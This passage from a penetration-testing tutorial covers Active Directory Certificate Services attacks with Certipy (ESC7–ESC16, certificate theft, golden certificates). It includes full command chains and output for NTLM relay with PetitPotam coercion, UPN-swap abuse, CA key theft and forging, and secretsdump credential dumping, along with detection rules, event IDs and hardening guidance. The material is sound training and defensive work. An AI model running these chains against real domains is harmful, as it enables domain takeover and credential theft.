# 5) Retrieve the now-issued certificate
certipy req -u analyst@corp.local -p 'Autumn2026!' -ca corp-DC01-CA \
  -retrieve 785
```

- `-add-officer` — grants ManageCertificates (officer) to a principal (requires ManageCA).
- `-enable-template` — publishes a template on the CA.
- `-issue-request ID` — force-issue a pending request (officer power).
- `-retrieve ID` — download an already-issued request's certificate.

Then `certipy auth -pfx administrator.pfx`. ESC7 is powerful because ManageCA is sometimes delegated to a "PKI operators" group that is far broader than the domain-admin tier it effectively equals.

## Part 9: ESC8 — NTLM Relay to Web Enrollment (the coercion chain)

ESC8 is the bridge from Chapter 10. If the CA exposes **web enrollment** (`http://ca/certsrv/`), that IIS endpoint accepts **NTLM** and does not enforce channel binding by default — so you can **coerce** a privileged machine (a Domain Controller) into authenticating to you and **relay** that authentication to the CA's web enrollment, requesting a certificate *as the DC's machine account*. A DC machine-account certificate lets you PKINIT as the DC and DCSync the domain.



### 9.1 Running the relay

```bash
# Terminal 1 — start the relay listener aimed at the CA's web enrollment
certipy relay -target 'http://ca01.corp.local' -template DomainController
#   older syntax: -target 'http://ca01/certsrv/certfnsh.asp'
```

- `-target` — the CA web-enrollment host/URL. Certipy knows the `certsrv` path.
- `-template DomainController` — request the machine/DC template (for computer coercion). Use `Machine`/`Computer` for member servers, or omit for the default.

```bash
# Terminal 2 — coerce the DC to authenticate to us (see Chapter 10)
python3 PetitPotam.py -u analyst -p 'Autumn2026!' -d corp.local <attacker-ip> <dc-ip>
#   or: printerbug.py 'corp.local/analyst:Autumn2026!'@<dc-ip> <attacker-ip>
#   or: coercer coerce -u analyst -p 'Autumn2026!' -t <dc-ip> -l <attacker-ip>
```

Relay output:

```
[*] Targeting http://ca01.corp.local (ESC8)
[*] Listening on 0.0.0.0:445 and 0.0.0.0:80
[*] Received connection from 10.10.10.10 (DC01$)
[*] Requesting certificate for 'CORP\\DC01$' via template 'DomainController'
[*] Got certificate with DNS SAN 'dc01.corp.local'
[*] Saved certificate and private key to 'dc01.pfx'
```

### 9.2 Cash in the DC certificate

```bash
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.10
# -> TGT for DC01$ and its NT hash
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/DC01\$@dc01.corp.local
```

A DC machine account can DCSync — you now own the domain. **ESC8 requires no template misconfiguration at all**; the vulnerability is simply that web enrollment accepts relayable NTLM. It is one of the highest-impact, lowest-prerequisite AD CS attacks and the reason "is HTTP web enrollment enabled?" is a top-line question on every AD CS review.

**Related — ESC11:** the same relay idea against the **ICertPassage RPC** interface when the CA has not set `IF_ENFORCEENCRYPTICERTREQUEST` (RPC encryption not required). `certipy relay -target 'rpc://ca01.corp.local' -template ...` relays coerced auth to the RPC enrollment endpoint instead of HTTP — useful when web enrollment is off but the RPC interface is still relayable.

## Part 10: ESC9 and ESC10 — Weak Certificate Mapping

ESC9 and ESC10 exist because of the post-KB5014754 world. Once the SID security extension and strong binding arrived, plain ESC1-style "name yourself administrator" stopped working on patched estates — *unless* the certificate omits the SID extension (ESC9) or the DC is configured not to enforce it (ESC10). Both are usually chained with a write primitive over a victim account (from Chapter 9 ACL work): you temporarily change the victim's UPN to the target's, enroll, then change it back.

### 10.1 ESC9 — `CT_FLAG_NO_SECURITY_EXTENSION`

A template with the `msPKI-Enrollment-Flag` bit `CT_FLAG_NO_SECURITY_EXTENSION` (Certipy: `ESC9`) tells the CA **not** to embed the SID extension. So a certificate from it maps by UPN only — exactly the old weak behaviour. If you can write the `userPrincipalName` of an account you control (say `svc_web`) to the victim's UPN (`administrator`), enroll from the ESC9 template as `svc_web`, then restore, the resulting cert authenticates as `administrator`.

```bash
# 1) Change our controlled account's UPN to the target (needs GenericWrite over svc_web)
certipy account update -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -user svc_web -upn administrator@corp.local

# 2) Enroll from the ESC9 (no-security-extension) template AS svc_web
certipy req -u svc_web@corp.local -hashes :<svc_web_nthash> -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template ESC9-NoSecExt
#   -> administrator.pfx (UPN=administrator, no SID extension)

# 3) Restore svc_web's real UPN
certipy account update -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -user svc_web -upn svc_web@corp.local

# 4) Authenticate — maps by UPN to the real administrator
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
```

- `certipy account update -user X -upn Y` — set account X's `userPrincipalName` to Y. This is the pivot: mapping-by-UPN means whoever *currently* owns that UPN wins.

### 10.2 ESC10 — weak DC-side binding

ESC10 is the same UPN-swap trick, but the enabling condition is on the **DC's registry**, not the template:

- **Case 1** (`CertificateMappingMethods` includes `0x4`, UPN mapping for Schannel) — abuse via Schannel/LDAPS.
- **Case 2** (`StrongCertificateBindingEnforcement = 0` on the KDC) — the DC does *no* strong SID check, so any client-auth template works with a UPN swap, no ESC9 flag needed.

Certipy flags `ESC10` when it reads these weak values. Exploitation mirrors ESC9 (swap UPN, enroll from any client-auth template, restore, `auth`). ESC10 case 1 can also be driven with Shadow Credentials on the victim and then Schannel authentication (`certipy auth ... -ldap-shell`).

### 10.3 Shadow Credentials as an enabler

`certipy shadow` abuses **Key Trust** (`msDS-KeyCredentialLink`) — if you can write that attribute on a victim (GenericWrite/GenericAll), you add a key credential and then PKINIT as them. It is not strictly an ESC, but it is the most common way to obtain the "write on victim" and cert-based logon needed for ESC9/ESC10 and for general account takeover:

```bash
certipy shadow auto -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -account svc_web
# adds a KeyCredential, authenticates via PKINIT, prints svc_web's NT hash, then cleans up
```

`shadow auto` does add → authenticate → dump hash → remove in one command. `shadow add`/`list`/`remove` are the manual pieces.

## Part 11: ESC13–ESC16, Certificate Theft, and Golden Certificates

### 11.1 ESC13 — issuance policy linked to a group

If a certificate template has an **issuance policy** (application policy OID) that is linked to an AD group via `msDS-OIDToGroupLink`, then a certificate issued from that template causes the authenticated token to **contain that group's membership**. Enroll from the template (a plain `certipy req`), authenticate, and your Kerberos token silently includes the linked (possibly privileged) group — no group membership change ever recorded on your account.

### 11.2 ESC14 — write access to `altSecurityIdentities`

`altSecurityIdentities` is the explicit certificate-mapping attribute. If you can write it on a victim, you add a mapping that says "this certificate = that account," then authenticate with a certificate you control. It is the explicit-mapping cousin of ESC9/ESC10 and is remediated by treating write access to `altSecurityIdentities` as tier-0.

### 11.3 ESC15 — EKUwu (CVE-2024-49019)

**ESC15 / EKUwu** abuses **version 1** certificate templates: an attacker can inject **application policies** (including Client Authentication or Certificate Request Agent) into the request even though the v1 template did not grant them, because v1 templates don't constrain application policies the way v2+ do. Certipy exploits it with `-application-policies`:

```bash
certipy req -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template WebServer \
  -upn administrator@corp.local \
  -application-policies '1.3.6.1.5.5.7.3.2'   # inject Client Authentication
```

Patch: apply the November 2024 updates. Any v1 template that lets low-priv users enroll is suspect until patched.

### 11.4 ESC16 — security extension disabled CA-wide

ESC16 is ESC9's CA-scoped sibling: the CA is configured to **never** add the SID security extension to *any* certificate (the OID `szOID_NTDS_CA_SECURITY_EXT` is on the CA's disable list). Every certificate the CA issues is then mappable by UPN alone, so the UPN-swap escalation works domain-wide regardless of template flags. Certipy 5 detects and helps exploit it much like ESC9.

### 11.5 Certificate theft — THEFT1–THEFT5

You don't always need to *mint* a certificate; sometimes you steal one. The *Certified Pre-Owned* THEFT primitives:

| ID | What you steal / abuse | Tooling |
| --- | --- | --- |
| THEFT1 | Export a user's cert+key from their store (DPAPI-protected) | Mimikatz `crypto::certificates /export`, SharpDPAPI |
| THEFT2 | Steal machine certs from the local machine store | Mimikatz, `certipy` on-host equivalents |
| THEFT3 | Harvest certs from DPAPI master keys | SharpDPAPI, Mimikatz `dpapi::` |
| THEFT4 | Find PFX/PEM files lying on disk/shares | `find / -name '*.pfx'`, sharehunting |
| THEFT5 | PKINIT/UnPAC — turn a cert into the NT hash | `certipy auth` (built in) |

A stolen client-auth certificate is a ready-made credential — feed it to `certipy auth` and get the owner's TGT and hash.

### 11.6 Golden certificates — forging with a stolen CA key

If you compromise the CA (ESC7 to ManageCA, admin on the CA host, or `certipy ca -backup`), you can steal the **CA's private key** and then **forge** certificates for any principal offline — no enrollment, no logging on the CA, valid until the CA cert itself expires. This is the AD CS equivalent of a Golden Ticket and a devastating persistence mechanism.

```bash
# 1) Back up the CA certificate + private key (needs CA admin / ManageCA + host access)
certipy ca -u admin@corp.local -hashes :<hash> -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -backup

# 2) Forge a certificate for ANY user, signed by the stolen CA key
certipy forge -ca-pfx corp-DC01-CA.pfx \
  -upn administrator@corp.local -subject 'CN=Administrator,CN=Users,DC=corp,DC=local'

# 3) Use it like any other cert
certipy auth -pfx administrator_forged.pfx -dc-ip 10.10.10.10
```

- `certipy forge -ca-pfx` — sign a brand-new cert with the CA's own key; because it chains to the trusted CA it is accepted by every DC.
- **Remediation is brutal:** a stolen CA key means the CA must be **revoked and rebuilt** — you cannot simply rotate a password. This is why CA host security is tier-0.

## Part 12: Putting It Together — Choosing the Right Chain

Faced with a real environment, you don't try all sixteen ESCs blindly. `certipy find -vulnerable` sorts you, and this decision tree picks the shortest path:



Practical operator notes:

- **On a fresh, patched estate**, ESC8 (relay) and ESC7 (CA rights) are the least dependent on template hygiene — start there if you have network position or delegated CA rights.
- **With just a domain user**, `certipy find -vulnerable` immediately reveals ESC1/2/3/6 template problems; those are the cleanest single-command wins.
- **If the DC is patched (strong binding)**, prefer chains that don't rely on SAN spoofing: ESC8 (real DC$ auth), ESC7 (real issuance), ESC3 (real on-behalf), Shadow Credentials — or explicitly exploit ESC9/ESC10/ESC16 which target the mapping itself.
- **Always record the `Request ID`** for every certificate you enroll; blue teams will ask, and you may need to reference or (ethically) let them revoke it.

## Part 13: Detection & Defense Angle

This is the one consolidated defensive section (matching the reference chapters' single "Detection & Defense" part). AD CS attacks are quiet but not invisible — enrollment is logged, and the misconfigurations are enumerable before they're abused.

### 13.1 Prevent — fix the templates and the CA

| Control | Kills | How |
| --- | --- | --- |
| Remove `ENROLLEE_SUPPLIES_SUBJECT` from client-auth templates | ESC1 | Template → Subject Name → "Build from AD" |
| Restrict enrollment rights to specific groups (not Domain Users/Authenticated Users) | ESC1/2/3/6/13/15 | Template Security tab |
| Require manager approval on sensitive templates | ESC1/6 | `CT_FLAG_PEND_ALL_REQUESTS` |
| Remove Any-Purpose / SubCA / Enrollment-Agent EKUs where unneeded | ESC2/ESC3 | Template EKU list |
| Clear `EDITF_ATTRIBUTESUBJECTALTNAME2` on the CA | ESC6 | `certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2` + restart certsvc |
| Tighten CA ACLs (ManageCA/ManageCertificates to tier-0 only) | ESC7 | CA → Properties → Security |
| Disable HTTP web enrollment; enforce HTTPS + **EPA** + channel binding | ESC8/ESC11 | IIS Extended Protection = Required; require SMB/LDAP signing |
| Apply KB5014754 and set `StrongCertificateBindingEnforcement = 2` | ESC6/ESC9/ESC10/ESC16 | KDC registry, full-enforcement mode |
| Patch Nov 2024 (CVE-2024-49019) | ESC15 | Windows Update; audit v1 templates |
| Treat `altSecurityIdentities` / `msDS-KeyCredentialLink` write as tier-0 | ESC14 / Shadow Creds | ACL review |
| Protect the CA host and key (HSM, tier-0, no interactive logons) | Golden cert / forge | CA hardening |

The single highest-leverage move: run **`certipy find -vulnerable`** (or Locksmith / PSPKIAudit / the `ADCSTemplate` tooling) as an *audit*, and remediate every flagged item. You cannot be surprised by an ESC you already fixed.

### 13.2 Detect — the event IDs that matter

Certificate operations are logged on the **CA** (enable "Issued/Failed/Denied" auditing via `certutil -setreg CA\AuditFilter 127` and the CA's audit policy) and on **DCs** for cert-based logon:

| Event ID | Source | Meaning / hunt |
| --- | --- | --- |
| **4886** | CA | Certificate **requested** — baseline of enrollment activity |
| **4887** | CA | Certificate **issued/approved** — correlate requester vs. SAN (mismatch = ESC1/6) |
| **4888** | CA | Certificate request **denied** |
| **4898** | CA | Certificate template **loaded** (template change tracking → ESC4) |
| **4768** | DC | Kerberos **TGT requested** — with `Certificate Information` fields = PKINIT logon |
| **4624** | DC/host | Logon; type + cert info reveals cert-based logons from odd sources (ESC8) |
| **5145** | relay target | Detailed file share access — pairs with relay/coercion (see Chapter 10) |
| **4662** | DC | Object access — writes to template objects, `altSecurityIdentities`, `msDS-KeyCredentialLink` |

**Highest-value correlation:** on **4887**, compare the **Requester** account to the **Subject/SAN** of the issued certificate. A request by `svc_web` that yields a certificate for `administrator` is ESC1/ESC6/ESC9 in one line. Likewise, a machine account (e.g. `DC01$`) enrolling for a certificate at an odd time from an odd host is the ESC8 signature.

### 13.3 Hunt — Sigma-style logic

```yaml
title: AD CS - Certificate Issued With Mismatched Requester and Subject (ESC1/6)
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4887
  condition: selection
  # Alert when the SAN UPN != Requester account (post-process/correlate)
level: high
```

```yaml
title: AD CS - Enrollment Agent or Machine Account Enrolling Unusually (ESC3/ESC8)
logsource: { product: windows, service: security }
detection:
  selection:
    EventID: 4886
    # Requester is a computer account (ends with $) or uses Certificate Request Agent EKU
  condition: selection
level: medium
```

Additional detections: monitor writes to `CN=Certificate Templates` objects (4662) for ESC4; alert on `EDITF_ATTRIBUTESUBJECTALTNAME2` being enabled; deploy **certificate-mapping honeypots** and watch for PKINIT (4768 with certificate info) tied to accounts that should never authenticate by certificate. **IR use case:** after any suspected AD CS compromise, enumerate *all* recently issued certificates (`certutil -view`) and revoke suspicious ones — and if the CA key may be stolen, plan CA rebuild, because forged (golden) certificates cannot be revoked individually with confidence.

## Part 14: Fully Worked Lab — Coerce a DC into Domain Admin via ESC8

This lab chains coercion (Chapter 10) into AD CS relay (ESC8) end to end. **Scope:** a lab you own. Do not run coercion or relay against any network without written authorisation.

### 14.1 Lab topology



- **DC01** — Windows Server DC, `corp.local`, patched but with default web enrollment left on.
- **CA01** — Enterprise CA with **HTTP web enrollment** enabled and no EPA (the ESC8 condition).
- **Kali** — Certipy + Impacket + PetitPotam.
- Starting credentials: one low-privileged domain user, `analyst:Autumn2026!`.

### 14.2 Step 1 — Confirm the surface

```bash
certipy find -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 -stdout -enabled | \
  grep -A3 -iE 'Web Enrollment|ESC8|CA Name'
```

```
    CA Name              : corp-CA01-CA
    Web Enrollment (HTTP): Enabled
    [!] Vulnerabilities
      ESC8 : Web Enrollment is enabled and does not enforce channel binding
```

Web enrollment is on → ESC8 is live.

### 14.3 Step 2 — Start the relay

```bash
certipy relay -target 'http://ca01.corp.local' -template DomainController
```

```
Certipy v5.0.2 - by Oliver Lyak (ly4k)
[*] Targeting http://ca01.corp.local (ESC8)
[*] Listening on 0.0.0.0:445, 0.0.0.0:80
[*] Waiting for incoming connections...
```

### 14.4 Step 3 — Coerce DC01

In a second terminal, force DC01 to authenticate to Kali (10.10.10.66):

```bash
python3 PetitPotam.py -u analyst -p 'Autumn2026!' -d corp.local 10.10.10.66 10.10.10.10
```

```
[*] Connecting to ncacn_np:10.10.10.10[\PIPE\lsarpc]
[*] Attempting to coerce authentication via EfsRpcOpenFileRaw()
[+] Server returned ERROR_BAD_NETPATH -- coercion succeeded
```

Back in the relay terminal:

```
[*] Received connection from 10.10.10.10 (CORP\DC01$)
[*] Authenticating against http://ca01.corp.local as CORP\DC01$
[*] Requesting certificate for 'CORP\DC01$' via template 'DomainController'
[*] Got certificate with DNS SAN 'dc01.corp.local'
[*] Saved certificate and private key to 'dc01.pfx'
```

### 14.5 Step 4 — Turn the DC certificate into domain compromise

```bash
certipy auth -pfx dc01.pfx -dc-ip 10.10.10.10
```

```
[*] Using principal: dc01$@corp.local
[*] Got TGT
[*] Saved credential cache to 'dc01.ccache'
[*] Got hash for 'dc01$@corp.local': aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b
```

```bash
export KRB5CCNAME=dc01.ccache
secretsdump.py -k -no-pass corp.local/'DC01$'@dc01.corp.local -just-dc-user administrator
```

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets
administrator:500:aad3b435b51404eeaad3b435b51404ee:5f4dcc3b5aa765d61d8327deb882cf99:::
[*] Kerberos keys grabbed
```

A DC machine account performing DCSync → you now hold the Administrator hash and the domain. **What made it work:** nothing but web enrollment accepting relayable NTLM. No template was misconfigured.

### 14.6 Step 5 — Clean up and document

Note the certificate `Request ID` from the CA (visible in `certutil -view` on CA01), report it for revocation, and record the exact coercion + relay commands in the engagement log.

## Part 15: Second Worked Lab — ESC1 From a Single Domain User

A shorter drill proving the template path, using only `analyst:Autumn2026!`.

```bash
# 1) Enumerate — is any template ESC1?
certipy find -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 -vulnerable -stdout
#   -> ESC1-VulnUser flagged ESC1 (Domain Users can enroll, enrollee supplies subject)

# 2) Grab the target's SID (needed for strong-mapping-friendly requests)
certipy find -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 -stdout | grep -i sid
#   or: nxc ldap 10.10.10.10 -u analyst -p 'Autumn2026!' --query ... / Get-ADUser administrator

# 3) Request a cert AS administrator
certipy req -u analyst@corp.local -p 'Autumn2026!' -dc-ip 10.10.10.10 \
  -ca corp-DC01-CA -template ESC1-VulnUser \
  -upn administrator@corp.local -sid S-1-5-21-1899-1004-2019-500
#   -> administrator.pfx

# 4) PKINIT + UnPAC the hash
certipy auth -pfx administrator.pfx -dc-ip 10.10.10.10
#   -> administrator.ccache + NT hash

# 5) Use it
export KRB5CCNAME=administrator.ccache
secretsdump.py -k -no-pass corp.local/administrator@dc01.corp.local
```

If step 4 returns `KDC_ERR_CLIENT_NAME_MISMATCH`, the DC is enforcing strong binding and the SAN alone isn't trusted — pivot to ESC9/ESC10 (UPN swap) or a chain that produces a *real* identity (ESC8/ESC7). This single failure mode is the practical dividing line between pre- and post-KB5014754 estates.

## Part 16: Final Revision / Summary

- **A certificate is a durable identity.** It binds a key to a UPN/DNS name for a set of EKUs, signed by a CA in the NTAuth store. Client-auth certs log users on via PKINIT (→ TGT + NT hash) or Schannel. They outlive password resets — that's what makes AD CS both useful and dangerous.
- **Certificate mapping is the linchpin.** Pre-KB5014754, the DC trusted the SAN's UPN — so naming yourself `administrator` (ESC1) worked. KB5014754 embeds the requester SID (`szOID_NTDS_CA_SECURITY_EXT`) and adds `StrongCertificateBindingEnforcement`. ESC9 (no-SID-extension template), ESC10 (weak DC binding), ESC16 (CA never adds the extension) each defeat that in a different place.
- **The ESC families:** *template misconfig* (ESC1 enrollee SAN, ESC2 Any-Purpose/SubCA, ESC3 Enrollment Agent, ESC9 no-sec-ext, ESC13 OID-to-group, ESC15 EKUwu); *ACL abuse* (ESC4 template, ESC5 PKI object, ESC7 CA rights); *CA config* (ESC6 EDITF SAN2, ESC16 sec-ext off); *relay* (ESC8 web enrollment, ESC11 ICertPassage RPC); *mapping* (ESC10 DC binding, ESC14 altSecurityIdentities).
- **Certipy is the workflow:** `find` (enumerate + flag), `req` (enroll, `-upn`/`-on-behalf-of`/`-application-policies`), `auth` (PKINIT → TGT + hash), `relay` (ESC8/11), `ca` (ESC6/ESC7 + backup), `template` (ESC4), `account` (UPN swap for ESC9/10), `shadow` (Key Trust), `forge` (golden cert from stolen CA key).
- **ESC8 needs no template bug** — just relayable web enrollment + coercion. It's the highest-impact, lowest-prerequisite path and the direct sequel to Chapter 10.
- **Defence is enumerable:** run `certipy find -vulnerable` as an audit, fix every flag, apply KB5014754 + strong binding + Nov-2024 patch, kill HTTP web enrollment / enforce EPA, and lock CA and template ACLs to tier-0. **Detect** with CA events 4886/4887/4888/4898 (correlate requester vs SAN) and DC PKINIT logons (4768 with certificate info).
- **A stolen CA key = rebuild the CA.** Forged golden certificates can't be reliably revoked; CA host and key are tier-0.

Memory hook: **"Find, Request, Auth."** Almost every non-relay ESC is `certipy find` → `certipy req` (with the twist for that ESC) → `certipy auth`. The twist is the whole exam: *whose SAN, whose UPN, which flag, which EKU.*

## Part 17: Cheat Sheet / Quick Reference

**Enumerate**

```bash
certipy find -u USER@dom -p PASS -dc-ip DC -stdout -vulnerable      # flag ESCs
certipy find -u USER@dom -p PASS -dc-ip DC -stdout -enabled         # published templates
certipy find -u USER@dom -p PASS -dc-ip DC -bloodhound             # graph export
```

**ESC1 / ESC6 (enrollee or CA-wide SAN)**

```bash
certipy req -u USER@dom -p PASS -ca CA -template TPL -upn administrator@dom -sid S-1-5-...-500
certipy auth -pfx administrator.pfx -dc-ip DC
```

**ESC3 (enrollment agent)**

```bash
certipy req ... -template EnrollAgentTPL                       # get agent cert
certipy req ... -template User -pfx agent.pfx -on-behalf-of 'DOM\administrator'
```

**ESC4 (template ACL)**

```bash
certipy template ... -template TPL -save-configuration old.json -write-default-configuration
# exploit as ESC1, then:
certipy template ... -template TPL -configuration old.json     # restore
```

**ESC7 (CA rights)**

```bash
certipy ca ... -ca CA -add-officer USER
certipy ca ... -ca CA -enable-template SubCA
certipy req ... -template SubCA -upn administrator@dom          # -> pending ID
certipy ca ... -ca CA -issue-request ID
certipy req ... -ca CA -retrieve ID
```

**ESC8 / ESC11 (relay)**

```bash
certipy relay -target 'http://CA' -template DomainController    # ESC8 (HTTP)
certipy relay -target 'rpc://CA' -template DomainController     # ESC11 (RPC)
# then coerce: PetitPotam.py / printerbug.py / coercer
certipy auth -pfx dc01.pfx -dc-ip DC
```

**ESC9 / ESC10 (UPN swap)**

```bash
certipy account update -u USER -p PASS -user svc -upn administrator@dom
certipy req -u svc -hashes :HASH -ca CA -template ESC9TPL       # or any client-auth TPL for ESC10
certipy account update -u USER -p PASS -user svc -upn svc@dom   # restore
certipy auth -pfx administrator.pfx -dc-ip DC
```

**ESC15 (EKUwu)**

```bash
certipy req ... -template V1Template -upn administrator@dom -application-policies '1.3.6.1.5.5.7.3.2'
```

**Shadow Credentials / forge / theft**

```bash
certipy shadow auto -u USER -p PASS -account victim -dc-ip DC   # Key Trust takeover
certipy ca ... -ca CA -backup                                   # steal CA key
certipy forge -ca-pfx CA.pfx -upn administrator@dom             # golden cert
certipy auth -pfx stolen_or_forged.pfx -dc-ip DC               # PKINIT + UnPAC hash
```

**Key EKUs / OIDs**

| Name | OID |
| --- | --- |
| Client Authentication | `1.3.6.1.5.5.7.3.2` |
| Smart Card Logon | `1.3.6.1.4.1.311.20.2.2` |
| PKINIT Client Authentication | `1.3.6.1.5.2.3.4` |
| Certificate Request Agent | `1.3.6.1.4.1.311.20.2.1` |
| Any Purpose | `2.5.29.37.0` |
| SID security extension (`szOID_NTDS_CA_SECURITY_EXT`) | `1.3.6.1.4.1.311.25.2` |

**Defender quick hits**

```bash
certutil -getreg policy\EditFlags                              # look for EDITF_ATTRIBUTESUBJECTALTNAME2
certutil -setreg policy\EditFlags -EDITF_ATTRIBUTESUBJECTALTNAME2   # clear it (then restart certsvc)
certutil -setreg CA\AuditFilter 127                            # enable full CA auditing
certutil -view                                                # review issued certs (IR)
reg query "HKLM\SYSTEM\CurrentControlSet\Services\Kdc" /v StrongCertificateBindingEnforcement
```

## Part 18: Common Pitfalls

- **`auth` returns `KDC_ERR_PADATA_TYPE_NOSUPP`** → the KDC has no DC certificate / PKINIT unsupported. Use the cert over Schannel (`certipy auth -pfx x.pfx -ldap-shell`) instead.
- **`KDC_ERR_CLIENT_NAME_MISMATCH`** → strong binding is enforced; supply `-sid`, or pivot to ESC9/ESC10/ESC16.
- **`find` shows nothing vulnerable but a CA exists** → re-run without `-vulnerable`; the misconfig may be an ACL (ESC4/ESC7) or a CA flag Certipy needs different rights to read. Also try `-enabled` to see what's actually published.
- **LDAP bind fails on hardened DCs** → add `-ldap-channel-binding` and/or `-scheme ldaps`.
- **Relay gets the connection but issuance fails** → the coerced account may lack enroll rights on the chosen `-template`; for a DC use `DomainController`, for a server use `Machine`/`Computer`.
- **Clock skew** breaks Kerberos/PKINIT → `sudo ntpdate DC` or `faketime` to the DC's time.
- **Left a template weaponised (ESC4)** → always `-save-configuration` first and restore; document it.

## Part 19: Practice Labs & Resources

Train each primitive on purpose-built targets:

- **TryHackMe — "AD Certificate Templates"** and the **"Exploiting AD"** rooms: guided ESC1/ESC8 with Certipy.
- **HackTheBox — "Certified"** (ESC9/shadow-credentials-flavoured chain), **"Escape"** (ESC1 via a readable template), **"Authority"** (ESC1 + PWM), **"Sizzle"** and **"Manager"** (AD CS + relay elements). HTB **Pro Labs "Zephyr"/"Dante"**-style AD chains include AD CS steps.
- **SpecterOps *Certified Pre-Owned* whitepaper** — the canonical source for ESC1–ESC8 and THEFT1–5; read it alongside this chapter.
- **Certipy wiki (ly4k/Certipy)** — authoritative, per-ESC command reference kept current with ESC13–ESC16.
- **GOAD (Game of Active Directory)** by Orange Cyberdefense — self-hosted vulnerable AD lab; deploy an AD CS role and reproduce ESC1/ESC4/ESC8 safely end to end.
- **Locksmith / PSPKIAudit / ADCSTemplate** — blue-team side: run them against your GOAD lab and confirm each fix removes the corresponding Certipy finding.
- **Practise the detection half:** enable CA auditing (`AuditFilter 127`), run each attack, and hunt the resulting 4886/4887 events — mapping attack to log is the skill that makes you dangerous on both sides.

Build the lab, run every command above until `find → req → auth` is muscle memory, then flip to the CA console and watch the events you generate. Understanding AD CS from both ends is what turns "I ran Certipy" into "I understand exactly why this certificate is a domain-admin key, and exactly how to take it away."

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-active-directory/11-ad-certificate-services-ad-cs-esc-attacks-with-certipy), with comments and the latest edits.*
